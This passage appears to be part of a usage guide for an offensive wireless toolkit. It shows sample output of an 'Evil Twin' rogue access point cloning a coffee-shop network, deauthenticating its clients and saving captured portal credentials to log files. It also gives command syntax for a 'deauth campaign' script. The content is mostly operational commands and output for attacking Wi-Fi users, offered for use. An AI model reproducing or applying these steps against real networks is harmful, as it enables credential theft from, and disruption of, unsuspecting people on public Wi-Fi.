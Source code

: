 **Interactive Confirmation:**
```
⚠ This will launch a rogue access point and deauth attack.
Continue? (yes/no): yes
```

**Running Status:**
```
═══════════════════════════════════════════════════════════════
  Evil Twin Active - Monitoring Connections
═══════════════════════════════════════════════════════════════

Target: CoffeeWiFi (AA:BB:CC:DD:EE:FF)
Channel: 6
Interface: wlan0
Portal: Enabled

Waiting for clients to connect...
(Press Ctrl+C to stop)

[10:45:23] 1 client(s) connected
  └─ 11:22:33:44:55:66
[10:47:11] 2 client(s) connected
  └─ 11:22:33:44:55:66
  └─ AA:BB:CC:DD:EE:77
```

**Stopping:**
```bash
# Press Ctrl+C
# Or from another SSH session:
pkill -f evil-twin
```

**Credential Capture:**
When `ENABLE_PORTAL=true`, captured credentials saved to:
```
/var/log/evil-portal/
/root/evil-twin/credentials_TIMESTAMP.txt
```

---

### 4. Deauth Campaign Manager

**Script:** `/root/04-deauth-campaign.sh`

**Full Syntax:**
```bash
./04-deauth-campaign.sh <MODE> [TARGET_FILE] [INTERFACE] [INTERVAL] [PACKETS] [OUTPUT_DIR]
```

**Modes:**

#### Mode 1: Scan
```bash
./04-deauth-campaign.sh scan [INTERFACE]

# Examples:
./04-deauth-campaign.sh scan
./04-deauth-campaign.sh scan wlan0
```
Lists targets using `bh deauth_scan` for manual selection.
